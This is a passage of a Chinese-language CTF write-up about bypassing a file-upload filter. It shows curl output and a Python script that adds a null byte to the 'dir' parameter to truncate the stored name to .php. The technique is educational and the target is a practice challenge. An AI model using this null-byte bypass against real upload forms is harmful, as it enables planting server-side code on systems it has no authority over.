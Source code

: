 ```shell
ubuntu@VM-0-5-ubuntu:~/kayoch1n.github.io$ curl http://teamxlc.sinaapp.com/web5/21232f297a57a5a743894a0e4a801fc3/upload.php -X POST -F "dir=/uploads/25252" -F "file=@temp.png"
<html><head><meta charset="utf-8" /></head><body>
Array
(
    [0] => .png
    [1] => png
)
Upload: temp.png<br />Type: image/png<br />Size: 0.005859375 Kb<br />Stored in: ./uploads/8a9e5f6a7a789acb.phparray(4) {
  ["dirname"]=>
  string(9) "./uploads"
  ["basename"]=>
  string(13) "25252temp.png"
  ["extension"]=>
  string(3) "png"
  ["filename"]=>
  string(9) "25252temp"
}
<br>必须上传成后缀名为php的文件才行啊！<br></body>
</html>ubuntu@VM-0-5-ubuntu:~/kayoch1n.github.io$ 
```

也许代码通过 basename 判断文件类型，应该在dir参数上面做点文章？谷歌说可以给dir参数加null字节试试（想起前面有个 `ereg` 函数会把null字节当成字符串结束的标志）。

谷歌给出的参考做法是先令dir=`/uploads/xxx.phpa`、用burpsuite把结尾的a改成`\x00`。无奈网络不好，158M的社区版要下9小时'_'|||。另外curl不能在`-F`指定一个null字节，`-F`和`-d`也不能同时使用；比如下面的命令并不能让参数带上null字节：
```shell
curl www.qq.com -X POST -F "dir=/uploads/25252.php`echo -ne '\x00'`"
# bash: warning: command substitution: ignored null byte in input
# 这是因为bash用C字符串存变量 https://stackoverflow.com/a/42493691/8706476
```

用python可以传输null字节：

```python
#!/usr/bin/python3
# temp.py
import requests

with open(f'temp.png', mode='rb') as f:
  url = 'http://teamxlc.sinaapp.com/web5/21232f297a57a5a743894a0e4a801fc3/upload.php'
  rsp = requests.post(url=url, data=dict(dir='/uploads/25252.php\x00'), files=dict(file=f))

  rsp.encoding = 'utf8'
  print(rsp.status_code)
  print(rsp.text)
```



## [SQL注入1](http://chinalover.sinaapp.com/index.php)

不看源代码试不出来
